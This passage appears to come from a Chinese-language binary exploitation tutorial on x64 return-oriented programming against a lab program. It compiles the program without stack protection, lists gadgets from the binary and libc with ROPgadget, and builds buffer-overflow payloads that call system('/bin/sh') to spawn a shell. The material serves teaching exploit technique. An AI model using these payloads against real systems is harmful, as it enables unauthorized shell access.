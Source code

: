 编译方法：

```
#!bash
gcc -fno-stack-protector level4.c -o level4 -ldl 
```

首先目标程序会打印system()在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发buffer overflow然后利用ROP执行 `system(“/bin/sh”)` 。但为了调用 `system(“/bin/sh”)` ，我们需要找到一个gadget将rdi的值指向“/bin/sh”的地址。于是我们使用ROPGadget搜索一下level4中所有pop ret的gadgets。

```
#!bash
$ ROPgadget --binary level4 --only "pop|ret" 
Gadgets information
============================================================
0x00000000004006d2 : pop rbp ; ret
0x00000000004006d1 : pop rbx ; pop rbp ; ret
0x0000000000400585 : ret
0x0000000000400735 : ret 0xbdb8 
```

结果并不理想，因为程序比较小，在目标程序中并不能找到 `pop rdi; ret` 这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。

```
#!bash
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000001f27d : pop rdi ; pop rbp ; ret
0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
0x0000000000073033 : pop rdi ; pop rbx ; ret
0x0000000000022a12 : pop rdi ; ret 
```

这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。

```
#!bash
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 
```

另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。

```
#!bash
$ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
0x000000000012da1d : call qword ptr [rdi]
0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
0x00000000000f1f04 : call rdi
0x00000000000f4739 : pop rax ; pop rdi ; call rax
0x00000000000f473a : pop rdi ; call rax 
```

通过搜索结果我们发现， `0x00000000000f4739 : pop rax ; pop rdi ; call rax` 也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。

```
#!python
payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 
```
